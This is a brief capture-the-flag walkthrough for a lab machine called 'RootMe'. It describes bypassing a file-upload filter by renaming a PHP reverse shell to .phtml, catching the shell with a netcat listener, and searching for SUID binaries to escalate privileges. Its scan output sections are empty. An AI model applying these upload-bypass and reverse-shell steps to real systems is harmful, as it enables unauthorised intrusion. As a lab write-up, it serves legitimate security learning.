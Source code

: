 # RootMe

IP - 10.10.88.7

## Scanning and Enumeration
nmap scan:
```

```
dirsearch:
```

```

## Exploit
- http://10.10.88.7/panel is vulnerable to file upload.
- http://10.10.88.7/uploads allows you to see the uploaded files.
- Website allows .txt to be uploaded but .php gets denied.


## Reverse Shell
- In terminal navigate to ``` /usr/share/webshells/php/php-reverse-shell.php ```
- ``` cp php-reverse-shell.php ~/Documents/php_reverse_shell.phtml ``` (copy executable file to "Docuemnts" directory and change the file name to .phtml file).


*The reason behind changing the file name to .phtml it's because we need to use a different php extension in order to execute the php reverse shell.
- Upload the executable file in the website and then go to http://10.10.88.7/uploads.
- In the terminal start netcat listener - ``` nc -nlvp 4444 ``` > go back to the website and open the executable file > acheived reverese shell.

## Post-Exploit
- To find user.txt - ``` find / -name “user.txt” 2>/dev/null ```

# Priviledge Escalation
https://hacking-capture.github.io/root-me/
Finding user with different priviledges -``` find / -user root -perm -4000 2>/dev/null ```
